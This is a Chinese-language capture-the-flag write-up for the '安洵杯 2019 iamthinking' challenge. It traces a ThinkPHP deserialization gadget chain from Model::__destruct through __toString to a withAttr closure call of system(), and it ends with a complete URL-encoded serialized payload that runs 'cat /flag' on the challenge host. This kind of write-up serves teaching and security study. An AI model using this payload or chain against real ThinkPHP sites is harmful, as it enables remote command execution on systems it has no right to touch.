 ```yaml
---
title: '[安洵杯 2019]iamthinking'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-11-06 21:17:56
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-639712.jpg
---
```

www.zip源码泄露

全局搜索serialize

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/aafafa.jpg)

Index.php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/ntmtmdm.jpg)

payload参数可控，接下来就是寻找反序列化的点了。

全局搜索destruct。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201106214057.png)

前面几个都无法利用，所以只能看Model.php
public function __destruct()
{
   if ($this->lazySave) {
   $this->save();
   }
}

其中lazysave没啥用，根据上面代码得知其默认值为false。
跟进save

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201106214838.png)

需要满足isempty()的值为false，trigger('BeforeWrite')的值为true
跟进isEmpty： 
public function isEmpty(): bool
{
   return empty($this->data);
}
所以data变量需不存在。

跟进trigger
在model.php里面没有找到trigger的定义，于是全局搜索trigger。
搜出来一堆但貌似也没有我要找的定义，卡住，看了wp。

看了wp找到了。。。
慢慢找还是能找到的。（爷是懒狗

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201106230526.png)

让$this->withEvent为flase即可。

继续看上面的save()

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201106230957.png)

result需为true
这个exists好像默认值也是true？那么只要updateData()返回true就行。

跟进updataData

然后这里又卡了，这一长串也不知道哪里是切入点。
根据wp提示，继续跟进checkAllowFields。。。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201106233221.png)

发现文字拼接：
$this->table . $this->suffix  
能够被利用触发toString方法。

进入到这一步的条件就是： $this->field为空，且$this->schema也为空。
即: $this->field = []; $this->schema = [];

同时这里还有一个判断，即$this->table，当为true是才能执行字符串的拼接。 
所以为了能让这个方法被调用到，我们要让exists存在。
即 $this->exists =True 

关于toString魔术方法,他是在Conversion.php当中。

public function __toString()
{
   return $this->toJson();
}

继续查看tojson这个函数：

public function toJson(int $options = JSON_UNESCAPED_UNICODE): string
{
   return json_encode($this->toArray(), $options);
}

跟进到toArray方法。

elseif (isset($this->visible[$key])) {
   $item[$key] = $this->getAttr($key);
}
elseif (!isset($this->hidden[$key]) && !$hasVisible) {
   $item[$key] = $this->getAttr($key);
}

再看到getAttr方法：

public function getAttr(string $name)
{
    try {
        $relation = false;
        $value    = $this->getData($name);
    } catch (InvalidArgumentException $e) {
        $relation = $this->isRelationAttr($name);
        $value    = null;
    }

    return $this->getValue($name, $value, $relation);
}

跟进getData方法：

if (is_null($name)) {
        return $this->data;
    }

    $fieldName = $this->getRealFieldName($name);

进入到getRealFieldName方法：

   protected function getRealFieldName(string $name): string
    {
        return $this->strict ? $name : Str::snake($name);
    }
    if (array_key_exists($fieldName, $this->data)) {
        return $this->data[$fieldName];
    } elseif (array_key_exists($name, $this->relation)) {
        return $this->relation[$name];
    }      
如果$this->strict为True，返回$name。

此时再getData方法中：

$this->data[$fielName] = $this->data[$key]

此时再getAttr中就是： $this->getValue($key, $value, null);

跟进getvalue：
protected function getValue(string $name, $value, $relation = false)
{
    // 检测属性获取器
    $fieldName = $this->getRealFieldName($name);
    $method    = 'get' . Str::studly($name) . 'Attr';

    if (isset($this->withAttr[$fieldName])) {
        if ($relation) {
            $value = $this->getRelationValue($relation);
        }

        if (in_array($fieldName, $this->json) && is_array($this->withAttr[$fieldName])) {
            $value = $this->getJsonValue($fieldName, $value);
        }else {
            //$fieldName = a
            //withAttr[a] = system
            $closure = $this->withAttr[$fieldName];
            //value = system(ls,)
            $value   = $closure($value, $this->data);
        }

可以很明显看到：

当$this->withAttr[$key]不为数组条件就会为false，从而触发命令执行

其实这题思路一点不难，就是这exp的格式之前没见过。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201107000012.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201107000036.png)

今天来不及细想了，后面一段都是复制的，以后有时间了再看看。
payload:
http://532a6c9f-d826-411b-a479-02b9cc0e1b70.node3.buuoj.cn////public/?payload=O%3A17%3A%22think\model\Pivot%22%3A6%3A{s%3A21%3A%22%00think\Model%00lazySave%22%3Bb%3A1%3Bs%3A8%3A%22%00*%00table%22%3BO%3A17%3A%22think\model\Pivot%22%3A6%3A{s%3A21%3A%22%00think\Model%00lazySave%22%3Bb%3A1%3Bs%3A8%3A%22%00*%00table%22%3Bs%3A0%3A%22%22%3Bs%3A10%3A%22%00*%00visible%22%3Ba%3A1%3A{i%3A0%3Ba%3A1%3A{s%3A6%3A%22hu3sky%22%3Bs%3A3%3A%22aaa%22%3B}}s%3A21%3A%22%00think\Model%00relation%22%3Ba%3A1%3A{s%3A6%3A%22hu3sky%22%3Bs%3A3%3A%22aaa%22%3B}s%3A17%3A%22%00think\Model%00data%22%3Ba%3A1%3A{s%3A1%3A%22a%22%3Bs%3A9%3A%22cat+%2Fflag%22%3B}s%3A21%3A%22%00think\Model%00withAttr%22%3Ba%3A1%3A{s%3A1%3A%22a%22%3Bs%3A6%3A%22system%22%3B}}s%3A10%3A%22%00*%00visible%22%3Ba%3A1%3A{i%3A0%3Ba%3A1%3A{s%3A6%3A%22hu3sky%22%3Bs%3A3%3A%22aaa%22%3B}}s%3A21%3A%22%00think\Model%00relation%22%3Ba%3A1%3A{s%3A6%3A%22hu3sky%22%3Bs%3A3%3A%22aaa%22%3B}s%3A17%3A%22%00think\Model%00data%22%3Ba%3A1%3A{s%3A1%3A%22a%22%3Bs%3A9%3A%22cat+%2Fflag%22%3B}s%3A21%3A%22%00think\Model%00withAttr%22%3Ba%3A1%3A{s%3A1%3A%22a%22%3Bs%3A6%3A%22system%22%3B}}
